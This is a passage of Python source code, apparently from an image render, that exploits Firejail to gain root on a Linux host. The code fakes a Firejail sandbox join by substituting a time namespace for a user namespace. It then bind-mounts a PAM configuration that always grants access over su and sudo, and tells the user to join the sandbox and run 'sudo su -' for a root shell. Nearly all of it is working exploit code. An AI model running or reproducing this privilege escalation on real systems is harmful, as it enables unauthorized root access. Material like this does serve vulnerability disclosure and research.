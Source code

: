 ```python
    mountTmpFS("/proc")

FJ_MNT_ROOT = Path("/run/firejail/mnt")

# Create necessary intermediate directories
os.makedirs(FJ_MNT_ROOT)
os.makedirs("/proc/1/ns")

# Firejail expects to find the umask for the "container" here, else it fails
with open(FJ_MNT_ROOT / "umask", 'w') as umask_fd:
    umask_fd.write("022")

# Create the symlink to the join file to pass Firejail's sanity check
os.symlink(join_file, FJ_MNT_ROOT / "join")
# Since we cannot join our own user namespace again fake a user namespace that
# is actually a symlink to our own time namespace. This works since Firejail
# calls setns() without the nstype parameter.
os.symlink(time_ns_src, "/proc/1/ns/user")

# The process joining our fake sandbox will still have normal user privileges,
# but it will be a member of the mount namespace under the control of *this*
# script while *still* being a member of the initial user namespace.
# 'no_new_privs' won't be set since Firejail takes over the settings of the
# target process.
#
# This means we can invoke setuid-root binaries as usual but they will operate
# in a mount namespace under our control. To exploit this we need to adjust
# file system content in a way that a setuid-root binary grants us full
# root privileges. 'su' and 'sudo' are the most typical candidates for it.
#
# The tools are hardened a bit these days and reject certain files if not owned
# by root e.g. /etc/sudoers. There are various directions that could be taken,
# this one works pretty well though: Simply replacing the PAM configuration
# with one that will always grant access.
with tempfile.NamedTemporaryFile('w') as tf:
    tf.write("auth sufficient pam_permit.so\n")
    tf.write("account sufficient pam_unix.so\n")
    tf.write("session sufficient pam_unix.so\n")

    # Be agnostic about the PAM config file location in /etc or /usr/etc
    for pamd in ("/etc/pam.d", "/usr/etc/pam.d"):
        if not os.path.isdir(pamd):
            continue
        for service in ("su", "sudo"):
            service = Path(pamd) / service
            if not service.exists():
                continue
            # Bind mount over new "helpful" PAM config over the original
            bindMount(tf.name, service)

print(f"You can now run 'firejail --join={os.getpid()}' in another terminal to obtain \
a shell where 'sudo su -' should grant you a root shell.")

while True:
    line = sys.stdin.readline()
    if not line:
        break
```
